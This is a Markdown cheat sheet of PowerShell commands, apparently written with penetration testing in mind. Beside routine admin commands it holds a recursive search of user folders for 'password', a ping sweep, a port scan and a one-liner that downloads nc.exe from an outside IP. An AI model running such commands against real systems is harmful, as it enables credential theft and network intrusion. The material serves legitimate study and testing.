 ```yaml
---
title: Powershell
category: Misc
order: 8
---
```


>**Help and Finding Commands**

Function | Command
------------- | -------------
help | <code> help [cmdlet] -detailed, -example, -ful </code>
Properties and Methods of object or command | <code> [object/command] | gm </code>

>**Syntax**

Function | Command
------------- | -------------
List Commands | <code>get-command <set*, *process, ...> </code>
ls/dir | <code>Get-ChildItem (ls, dir, gci) </code>
copy/cp | <code>Copy-Item (cp, copy, cpi) </code>
move/mv | <code>Move-Item (mv, move, mi) </code>
find/findstr/grep | <code>Select-String (sls) </code>
help/man | <code>Get-Help (man, help) </code>
type/cat | <code>Get-Content (cat, type, gc) </code>
ps/tasklist | <code>Get-Process (ps, gps) </code>
cd/pwd | <code>Get-Location  (cd, pwd) </code>
History | <code>Get-History (history)  </code>
Check Command Before Execution | <code>-whatif </code>
Create Subset Objects | <code>get-service | select servicename, displayname </code>



>**Inventory, File Search, and Counting**

Function | Command
--------- | -------
Environment Variables | <code>ls env:, ls variable: </code>
Search for Files | <code>ls -r [dir] [string] 2> $null| % {echo $_.fullname} </code>
Search for text in files | <code>ls -r c:\users | % {select-string -path $_ -pattern password} 2>$null </code>

>**Network and Firewall**

Function | Command
--------- | -------
Ping Sweep | <code>1..255 | % {echo "192.168.2.$_"; ping -n 1 -w 100 192.168.2.$_ | select-string ttl} </code>
Port Scan | <code>1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port $_ is open" } 2>$null </code>
Web Client Download | <code>(New-Object System.Net.WebClient).DownloadFIle("http://10.10.10.10/nc.exe", "c:\nc.exe") </code>

SimpleHTTPServer: 
{% highlight powershell %}
$Hso = New-Object Net.HttpListener 
$Hso.Prefixes.Add(""http://+:8000/"")
$Hso.Start()
While ($Hso.IsListening) {
$HC = $Hso.GetContext()
$HRes = $HC.Response
$HRes.Headers.Add(""Content-Type"",""text/plain"")
$Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
$HRes.ContentLength64 = $Buf.Length
$HRes.OutputStream.Write($Buf,0,$Buf.Length)
$HRes.Close()
}
$Hso.Stop()
{% endhighlight %}


>**Piping and Loops**

Function | Command
--------- | -------
Format Output | <code>ps | format-list -property name, id, starttime (or * for all) </code>
Loops | <code>ForEach-Object { $_ }  <br> 1..10 | % {echo $_} </code>

>**Piping and Loops**

Function | Command
--------- | -------
Create a Service | <code>PS C:\>New-Service -Name "TestService" -BinaryPathName "C:\WINDOWS\System32\svchost.exe -k netsvcs" -StartupType manual </code>
Start a Service | <code>Start-Service TestService </code>

>**Code Review**

Function | Command
-------- | -------
Find text in a file and create a spreadsheet of results | <code> Get-ChildItem -recurse | Select-String -pattern "STOMP" | select path,filename,pattern,line,linenumber | Export-Csv Stomp.csv </code>
